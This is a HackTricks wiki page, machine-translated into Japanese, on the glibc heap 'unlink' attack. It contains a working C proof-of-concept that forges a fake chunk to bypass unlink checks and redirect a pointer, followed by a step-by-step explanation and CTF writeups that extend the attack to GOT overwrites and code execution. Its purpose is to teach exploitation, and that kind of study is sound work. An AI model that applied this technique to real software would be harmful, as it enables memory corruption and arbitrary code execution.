 # Unlink Attack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

この攻撃が発見されたとき、主にWWW（Write What Where）を許可しましたが、いくつかの**チェックが追加され**、攻撃の新しいバージョンはより興味深く、より複雑で、**無意味**になりました。

### コード例:

<details>

<summary>コード</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* 攻撃はtcachesが使用されている場合（2.26以降）には機能しません。

### 目標

この攻撃は、**チャンクへのポインタを自分自身の3アドレス前を指すように変更する**ことを可能にします。この新しい位置（ポインタがあった周辺）に興味深いもの、例えば他の制御可能なアロケーションやスタックがある場合、それらを読み取ったり上書きしたりして、より大きな被害を引き起こすことが可能です。

* このポインタがスタックにあった場合、現在は自分自身の3アドレス前を指しているため、ユーザーがそれを読み取ったり変更したりできる可能性があるため、スタックから機密情報を漏洩させたり、リターンアドレスを（おそらく）変更したりすることが可能になります。カナリアに触れずに。
* CTFの例では、このポインタは他のアロケーションへのポインタの配列に位置しているため、3アドレス前を指すようにし、それを読み書きできることで、他のポインタを他のアドレスを指すように変更することが可能です。\
ユーザーが他のアロケーションも読み書きできる可能性があるため、情報を漏洩させたり、任意の場所（GOTなど）に新しいアドレスを上書きしたりすることができます。

### 要件

* メモリ（例：スタック）にいくつかの制御を持ち、いくつかの属性に値を与えるためにいくつかのチャンクを作成すること。
* フェイクチャンクのポインタを設定するためのスタックリーク。

### 攻撃

* いくつかのチャンク（chunk1とchunk2）があります。
* 攻撃者はchunk1の内容とchunk2のヘッダーを制御します。
* chunk1で攻撃者はフェイクチャンクの構造を作成します：
* 保護を回避するために、`size`フィールドが正しいことを確認して、エラーを回避します：`corrupted size vs. prev_size while consolidating`
* フェイクチャンクの`fd`と`bk`フィールドは、chunk1ポインタが格納されている場所をそれぞれ-3および-2のオフセットで指すように設定されているため、`fake_chunk->fd->bk`と`fake_chunk->bk->fd`は、メモリ（スタック）内の実際のchunk1アドレスが格納されている位置を指します：

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* chunk2のヘッダーは、前のチャンクが使用されていないことと、サイズが含まれているフェイクチャンクのサイズであることを示すように変更されます。
* 2番目のチャンクが解放されると、このフェイクチャンクがアンリンクされ、次のようになります：
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* 以前に`fake_chunk->fd->bk`と`fake_chunk->bk->fd`が同じ場所（`chunk1`が格納されていたスタック内の位置）を指すように設定されていたため、これは有効なリンクリストでした。**両方が同じ位置を指しているため**、最後のもの（`fake_chunk->bk->fd = fake_chunk->fd`）だけが**効果**を持ちます。
* これにより、**スタック内のchunk1へのポインタがスタック内の3アドレス前に格納されているアドレス（またはバイト）に上書きされます**。
* したがって、攻撃者が再びchunk1の内容を制御できる場合、**スタック内に書き込むことができ**、カナリアをスキップしてリターンアドレスを上書きし、ローカル変数の値やポインタを変更することが可能になります。攻撃者が再びchunk1のアドレスをスタック内の異なる位置に変更できる場合、再びchunk1の内容を制御できれば、どこにでも書き込むことができるようになります。
* これは、**アドレスがスタックに格納されているため**可能であったことに注意してください。リスクと悪用は、**フェイクチャンクへのアドレスがどこに格納されているか**に依存する可能性があります。

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## 参考文献

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* CTFでunlink攻撃を見つけるのは奇妙かもしれませんが、ここにはこの攻撃が使用されたいくつかのワriteupがあります：
* CTFの例：[https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* この例では、スタックの代わりにmallocされたアドレスの配列があります。unlink攻撃が実行され、ここでチャンクを割り当てることができるようになり、mallocされたアドレスの配列のポインタを制御できるようになります。次に、これらのアドレス内のチャンクの内容を変更することを可能にする別の機能があり、これによりアドレスをGOTに指し、関数アドレスを変更してリークを取得し、RCEを実行します。
* 別のCTFの例：[https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* 前の例と同様に、アロケーションのアドレスの配列があります。unlink攻撃を実行して、最初のアロケーションへのアドレスを配列の開始位置の数ポジション前に指すようにし、この新しい位置でこのアロケーションを上書きすることが可能です。したがって、他のアロケーションのポインタを上書きして、atoiのGOTを指し、これを印刷してlibcリークを取得し、その後atoiのGOTをワンガジェットのアドレスで上書きすることが可能です。
* unlink攻撃に非常に似た脆弱性を悪用するカスタムmallocおよびfree関数を使用したCTFの例：[https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* FDおよびBKポインタを制御することを可能にするオーバーフローがあります。さらに、ヒープにはexecビットがあるため、ヒープアドレスをリークし、GOTから関数をヒープチャンクにポイントしてシェルコードを実行することが可能です。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter**で**フォロー**してください 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

